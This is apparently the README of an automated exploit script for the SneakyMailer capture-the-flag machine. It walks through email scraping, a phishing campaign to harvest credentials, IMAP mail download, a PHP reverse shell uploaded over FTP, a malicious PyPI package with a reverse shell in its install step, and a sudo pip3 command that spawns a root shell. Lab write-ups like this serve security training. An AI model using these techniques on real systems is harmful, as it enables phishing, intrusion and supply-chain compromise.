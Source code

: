 # Automated Script to complete the SneakyMailer Box

TLDR: Box that mainly covers topics:
* Enumeration - Email addresses
* Simple Phishing
* Interacting with IMAP services
* Arbitrary file upload to ftp that serves contents in a development subdomain
* A custom PyPi server
* Submitting a malicious python package to arbitrarily execute code (establish rev shell)
* Privilege escalation from user -> root using sudo pip3

## User Details:    
* Port Scan Reveals
```
Nmap scan report for 10.10.10.197                               
Host is up (0.016s latency).                                    
Not shown: 993 closed ports                                     
PORT     STATE SERVICE                                          
21/tcp   open  ftp                                              
22/tcp   open  ssh                                              
25/tcp   open  smtp                                             
80/tcp   open  http                                             
143/tcp  open  imap                                             
993/tcp  open  imaps                                            
8080/tcp open  http-proxy      

```
* We enumerate the initial set of entry points on the web side
* We add sneakycorp.htb to /etc/hosts
* Also through enumeration we can fuzz a subdomain dev.sneakycorp.htb. Add this to /etc/hosts
```
wfuzz -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http:/10.10.10.197:8080 -H "Host: FUZZ.sneakycorp.htb" --hw 69
```
* Finally at a later step, we also find a subdomain pypi.sneakycorp.htb

### Instructions for Running in Docker (Total Overkill - Read the dockerfile if you want to manually set it up)
```
docker build -t sneakymail:latest .
docker run -it --add-host sneakycorp.htb:10.10.10.197 --add-host dev.sneakycorp.htb:10.10.10.197 --add-host pypi.sneakycorp.htb:10.10.10.197 -p 4445:4445  sneakymail:latest /bin/ash
cd /root/sneakymailer
python3 pigparty-sneakymailer.py -i  10.10.14.9 -p 4445 -t user-part1

*Ensure ports match since we're forwarding from host -> container. In this case we're using port 4445
```

### Automated User:  Part 1 - Email scraping, Phishing, and Downloading Emails
Running the script for user-part1
```
python3 pigparty-sneakymailer.py -i  10.10.14.9  -p 4445 -t user-part1
```
![Automated User Part 1](./images/user-part1.PNG "User Part Step")

* The automated script will fetch emails from the website
* The script will then connect to the SMTP service, and send a phishing email to all potential recipients (i.e. the email list)
* A listener will await any clicks to a link supplied in the phishing email. The link points to our server.
* The box is designed such that the user (must be a really silly individual) who clicks the link will submit a credential
* The script will parse out the credential
* Then it will log into the IMAP service using the credential
* Once logged into IMAP the script will use IMAPClient libs to pull down all email from all inboxes
* At the conclusion of part 1, the emails are saved to a file: john-sneaky-emails.txt

  
### Automated User:  Part 2  - Interacting with FTP and uploading files, then obtaining reverse shell
Running the script for user-part2
```
python3 pigparty-sneakymailer.py -i  10.10.14.9  -p 4445 -t user-part2
```
![Automated User Part 2](./images/user-part2.PNG "User Part Step")
* A credential was contained within one of the emails
* The script will use this credential to log into FTP 
* The script will navigate to the /dev directory. The dev directory contains contents from dev.sneakycorp.htb
* Upload a PHP reverse shell to the /dev directory
* Set up a listener
* Make a request to our uploaded PHP file
* Establish a shell as www-data
* In interactive mode, the user can navigate to the  /var/www directory and see a new subdomain pypi.sneakycorp.htb
* There is an .htaccess file containing credentials that one can crack. It will become useful later.

### Automated User:  Part 3 - Uploading a malicious PyPi Package

![Silly Low](./images/silly-low.PNG "Hrm..")

Looks like the user, "low" is tasked with anything submitted to the PyPi service
Also in addition, from enumeration in part2, we see 
* Pypi-service is running on port 5000. A user is required to authenticate to it using credentials contained within .htpasswd
* One can update PyPi packages on the service
```
pypi       707     1  0 10:36 ?        Ss     0:02 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server 
-i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages

```
Running the script for user-part3
```
python3 pigparty-sneakymailer.py -i  10.10.14.9  -p 4445 -t user-part3
```
![Automated User Part 3](./images/user-part3.PNG "User Part Step")
* We construct a malicious PyPi package contained in the directory mypackage. 
 The [Malicious PyPi Sample]  (https://github.com/rsc-dev/pypi_malware/blob/master/malware/openvc/openvc-1.0.0/setup.py) provides us with how we can construct a doo doo package.
* There is also a .pypirc file that we have to include in our home directory
* The script will upload a malicious pypi package to the pypi.sneakycorp.htb endpoint. The payload is a reverse shell contained in an install directive
* A service running on the server emulates actions taken by the user, "low". This service will install arbitrary packages in the PyPi  repo (Employee Low needs to stand in a time-out corner!!)
* We set up a listener and wait the shell. We will have a connected as user, "low"
* The script upgrades to a TTY shell, and also displays the location of user.txt

## Automated Root : Sudo stuff
Running the script for root
```
python3 pigparty-sneakymailer.py -i  10.10.14.9  -p 4445 -t root
```
![Automated root Flag](./images/root.PNG "Root Step")

* Similar to the step before, the script will establish a reverse shell as low
* Issuing sudo -l reveals that we can run pip3
* The script will issue commands in a TTY shell
```
TF=$(mktemp -d)    
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py 
sudo pip3 install $TF
```
* Then display the location of root.txt




